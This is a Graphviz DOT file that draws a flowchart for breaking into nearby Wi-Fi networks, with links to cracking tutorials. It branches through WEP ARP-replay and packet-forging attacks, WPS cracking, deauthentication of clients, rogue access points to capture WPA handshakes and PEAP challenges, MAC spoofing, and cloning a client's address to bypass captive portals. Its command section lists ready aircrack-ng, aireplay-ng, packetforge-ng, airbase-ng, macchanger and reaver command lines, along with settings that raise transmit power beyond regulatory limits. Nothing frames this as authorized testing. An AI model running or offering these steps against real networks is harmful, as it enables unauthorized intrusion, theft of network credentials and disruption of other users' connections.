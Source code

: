 /*
Graphviz - DOT language writing!
$dot -Tsvg this.dot -o this.svg
*/
digraph Diagram {
    //PROFILE [label = "written by SYA-KE", shape=none];
    nodesep=0.1;
    node [fontsize=10];
    edge [fontsize=9];
    /*
    {
        node [style="invis"];
        MAIN1 -> OPN2 -> WEP3 -> WPA4 [allowhead="none",style="invis"];
    }
    */
    subgraph clusterMain {
        label = "Connecting Wireless-LAN Access Point";
        subgraph clusterFail {
            label = "";
            color = red;
            node [shape=doublecircle,color=red];
            Impossible [label="BluteForceAttack? :D"];
        }
        subgraph clusterOPN{
            label = "OPN";
            color = darkorchid;
            subgraph OPN_N_If {
                node [shape=diamond];
                NothingToDo [URL="http://compnetworking.about.com/od/wirelessfaqs/f/legal_free_wifi.htm"];
            }
            subgraph OPN_Flow {
            }
        }
        subgraph clusterWEP {
            label = "WEP";
            color = darkorchid1;
            subgraph WEP_N_Do {
                node [shape=box];
                ARPReplay [label="Perform ARP replay Attack",URL="http://www.aircrack-ng.org/doku.php?id=arp-request_reinjection"];
                CaptureSomeDataPacket [label="Capture #Data Packet",URL="http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients"];
                ForgeARP [label="Forge ARP Packet",URL="http://www.aircrack-ng.org/doku.php?id=packetforge-ng"];
                BluteforceCRC [label="BluteForce Against a WEP Data Packet"];
                CrackCredential_WEP [label="CrackCredential"];
            }
            subgraph WEP_N_If {
                node [shape=diamond];
                HasClient_WEP [label="HasClient"];
                CouldGenerateXOR [URL="http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients"];
            }
            subgraph WEP_Flow {
                HasClient_WEP -> ARPReplay [label="Yes."];
                HasClient_WEP -> CaptureSomeDataPacket [label="No."];
                CaptureSomeDataPacket -> CouldGenerateXOR;
                CouldGenerateXOR -> ForgeARP [label="Yes."];
                CouldGenerateXOR -> BluteforceCRC [label="No."];
                BluteforceCRC -> CrackCredential_WEP;
                ForgeARP -> ARPReplay;
                ARPReplay -> CrackCredential_WEP;
            }
        }
        subgraph clusterWPA {
            label = "WPA";
            color = darkorchid2;
            subgraph WPA_N_If {
                node [shape=diamond];
                IsTKIP;
                IsPSK;
                HasWPS_PSK [label="HasWPS",URL="http://code.google.com/p/reaver-wps/source/browse/trunk/docs/README.WASH?r=87"];
                HasClient_EAP [label="HasClient"];
            }
            subgraph WPA_Flow {
                IsTKIP -> HasWPS_PSK [label="Yes."];
                IsTKIP -> IsPSK [label="No."];
                //IsTKIP -> KobeCrack [label="gain xgr -> sniff and forge packets(do XOR each transaction)"];
                IsPSK -> HasWPS_PSK [label="Yes."];
                IsPSK -> HasClient_EAP [label="NO."];
            }
            subgraph clusterPSK {
                label = "PSK";
                subgraph PSK_N_If {
                    node [shape=diamond];
                    HasClient_PSK [label="HasClient"];
                    IsWeakWPS [URL="https://scotthelme.co.uk/wifi-insecurity-wps/"];
                }
                subgraph PSK_N_Do {
                    node [shape=box];
                    SetupRougeAccessPointOrDeauthClient [shape=record,label="SetupRougeAP|DeauthClient",URL="http://theunl33t.blogspot.jp/2011/09/no-access-point-no-problem-how-to-get.html"];
                    StealHandShake [URL="http://www.smallnetbuilder.com/wireless/wireless-howto/31914-how-to-crack-wpa-wpa2-2012"];
                    CrackCredential_PSK [label="CrackCredential"];
                    CrackWPS [URL="http://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver"];
                }
                subgraph PSK_Flow {
                    HasWPS_PSK -> IsWeakWPS [label="Yes."];
                    IsWeakWPS -> CrackWPS [label="Yes."];
                    IsWeakWPS -> HasClient_PSK [label="No."];
                    HasWPS_PSK -> HasClient_PSK [label="No."];
                    HasClient_PSK -> SetupRougeAccessPointOrDeauthClient [label="Yes."];
                    HasClient_PSK -> Impossible [label="No."];
                    SetupRougeAccessPointOrDeauthClient -> StealHandShake;
                    StealHandShake -> CrackCredential_PSK;
                    CrackWPS -> CrackCredential_PSK;
                }
            }
            subgraph clusterEAP {
                label = "EAP";
                subgraph EAP_N_If {
                    node [shape=diamond];
                }
                subgraph EAP_N_Do {
                    node [shape=box];
                    SetupRougeAP [URL="http://blog.opensecurityresearch.com/2012/04/capturing-and-cracking-peap.html"];
                    CaptureChallangeResponse [URL="http://phreaklets.blogspot.jp/2013/06/cracking-wireless-networks-protected.html"];
                    CrackCredential_EAP [label="CrackCredential"];
                }
                subgraph EAP_Flow {
                    HasClient_EAP -> SetupRougeAP [label="Yes."];
                    HasClient_EAP -> Impossible [label="No."];
                    SetupRougeAP -> CaptureChallangeResponse;
                    CaptureChallangeResponse -> CrackCredential_EAP;
                }
            }
        }

        NothingToDo -> IsTKIP -> HasClient_WEP [style=invis];

        subgraph N_Start {
            node [shape=invtriangle,color=blue];
            Start;
        }
        subgraph N_End {
            node [shape=triangle,color=blue];
            End;
            subgraph Impossible_to_End{
                Impossible -> End;
            }
        }
        subgraph Nodes {
            subgraph N_Do {
                node [shape=box];
                ImproveYourWifiAntenna [URL="http://www.instructables.com/id/DIY-WIFI-Antenna-Reception-Booster/"];
                DeauthAllClient [URL="http://www.aircrack-ng.org/doku.php?id=deauthentication"];
                SpoofHardwareAddress [URL="http://www.securethelock.com/2013/12/03/how-to-bypass-mac-address-filtering-using-backtrackkali-linux/"];
                SpoofHardwareAddress2 [label="SpoofHardwareAddressToClient'sOne",URL="http://www.securethelock.com/2013/12/03/how-to-bypass-mac-address-filtering-using-backtrackkali-linux/"];
            }
            subgraph N_If {
                node [shape=diamond];
                HasAccessPointsAroundYou [URL="http://www.aircrack-ng.org/doku.php?id=airodump-ng"];
                IsStealthESSID [URL="http://securitysynapse.blogspot.jp/2014/01/wireless-pentesting-on-cheap-kali-hiddenSSID.html"];
                IsThereConnectedClient [URL="http://blackhat6969.blogspot.jp/2012/09/down-and-dirty-wifi-cracking-with.html"];
                HasHardwareAddressFiltering [URL="http://synjunkie.blogspot.jp/2007/12/bypass-hidden-ssid-mac-address-filter.html"];
                HasEncryption [URL="http://www.dummies.com/how-to/content/wireless-security-protocols-wep-wpa-and-wpa2.html"];
                IsWEP [URL="http://www.howtogeek.com/167783/htg-explains-the-difference-between-wep-wpa-and-wpa2-wireless-encryption-and-why-it-matters/"];
                HasWebAuthentication [URL="http://www.slideshare.net/support_cyberoam/hotspot-authentication"];
                HasAccount;
                HasClient_Web [label="HasAlreadyAuthenticatedClient"];
            }
        }
        subgraph Flow {
            Start -> HasAccessPointsAroundYou;
            HasAccessPointsAroundYou -> IsStealthESSID [label="Yes"];
            HasAccessPointsAroundYou -> ImproveYourWifiAntenna [label="No."];
            ImproveYourWifiAntenna -> IsStealthESSID;
            IsStealthESSID -> IsThereConnectedClient [label="Yes."];
            IsThereConnectedClient -> DeauthAllClient [label="Yes."];
            IsThereConnectedClient -> Impossible [label="No."];
            IsStealthESSID -> HasHardwareAddressFiltering [label="No."];
            DeauthAllClient -> HasHardwareAddressFiltering;
            HasHardwareAddressFiltering -> SpoofHardwareAddress [label="Yes."];
            HasHardwareAddressFiltering -> HasEncryption [label="No."];
            SpoofHardwareAddress -> HasEncryption;
            HasEncryption -> NothingToDo [label="No."];
            //goto clusterOPN

            HasEncryption -> IsWEP [label="Yes."];
            IsWEP -> HasClient_WEP [label="Yes."];
            //goto clusterWEP

            IsWEP -> IsTKIP [label="No."];
            //goto clusterWPA

            //back from OPN
            NothingToDo -> HasWebAuthentication;
            //back from WPA
            CrackCredential_PSK -> HasWebAuthentication;
            CrackCredential_EAP -> HasWebAuthentication;
            //back from WEP
            CrackCredential_WEP -> HasWebAuthentication;

            HasWebAuthentication -> HasAccount [label="Yes."];
            HasWebAuthentication -> End [label="No."];
            HasAccount -> End [label="Yes."];
            HasAccount -> HasClient_Web [label="No."];
            HasClient_Web -> SpoofHardwareAddress2 [label="Yes."];
            HasClient_Web -> Impossible [label="No."];
            SpoofHardwareAddress2 -> End;
        }
    }
    //subgraph clusterCommands {
    subgraph Commands {
        label = "CommandsAndNotes";
        subgraph Nt_Command {
            node [shape=box,color=gray];
            HasAccessPointsAroundYouCommand [label="ifconfig wlan0 down;\niwconfig wlan0 mode mon || airmon-ng start wlan0;\nairodump-ng wlan0;\n"];
            ImproveYourWifiAntennaCommand [label="iw reg set BO;\niwconfig wlan0 tx 30;\n#Add DIY Parabora."];
            IsStealthESSIDCommand [label="airodump-ng -c [channel] --bssid [AP MAC] wlan0"];
            DeauthAllClientCommand [label="aireplay-ng -0 0 -a [AP MAC] wlan0;\naireplay-ng -0 0 -a [AP MAC] -c [STA MAC] wlan0;"];
            SpoofHardwareAddressCommand [label="ifconfig wlan0 down && ifconfig hw ether [MAC] && ifconfig wlan0 up;\nmacchanger -m [MAC] wlan0;"];
            CaptureSomeDataPacketCommand [label="airodump-ng -c [channel] --bssid [AP MAC] --output-format pcap -w captured wlan0"];
            CouldGenerateXORCommand [label="aireplay-ng -5 -b [AP MAC] wlan0\naireplay-ng -4 -b [AP MAC] wlan0"];
            ForgeARPCommand [label="packetforge-ng -0 -a [AP MAC] -h [Original client MAC of XOR] -k 255.255.255.255 -l 255.255.255.255 -y some.xor -w arp-req"];
            ARPReplayCommand [label="aireplay-ng -3 -b [AP MAC] wlan0\naireplay-ng -2 -r arp-req wlan0"];
            SetupRougeAccessPointOrDeauthClientCommand [label="airbase-ng -P -C 500 -Z 2 -c 1 -i mon0 -F handshakes.cap wlan0"];
            CrackWPSCommand [label="reaver -i wlan0 -b [AP MAC]"];
        }
        subgraph Nt_Flow {
            edge [color=gray];
            HasAccessPointsAroundYouCommand -> HasAccessPointsAroundYou;
            ImproveYourWifiAntennaCommand -> ImproveYourWifiAntenna;
            IsStealthESSIDCommand -> IsStealthESSID;
            DeauthAllClientCommand -> DeauthAllClient;
            DeauthAllClientCommand -> SetupRougeAccessPointOrDeauthClient;
            SpoofHardwareAddressCommand -> SpoofHardwareAddress;
            SpoofHardwareAddressCommand -> SpoofHardwareAddress2;
            CaptureSomeDataPacketCommand -> CaptureSomeDataPacket;
            CaptureSomeDataPacketCommand -> StealHandShake;
            CouldGenerateXORCommand -> CouldGenerateXOR;
            ForgeARPCommand -> ForgeARP;
            ARPReplayCommand -> ARPReplay;
            SetupRougeAccessPointOrDeauthClientCommand -> SetupRougeAccessPointOrDeauthClient;
            CrackWPSCommand -> CrackWPS;
        }
    }
/*
    {
        edge[style=invis];
        {End} -> {Impossible};
    }
*/
    /*
    {rank=same; MAIN1; Start ;};
    {rank=same; OPN2; NothingToDo ;};
    {rank=same; WEP3; HasClient_WEP ;};
    {rank=same; WPA4; IsPSK ;};
    */
}
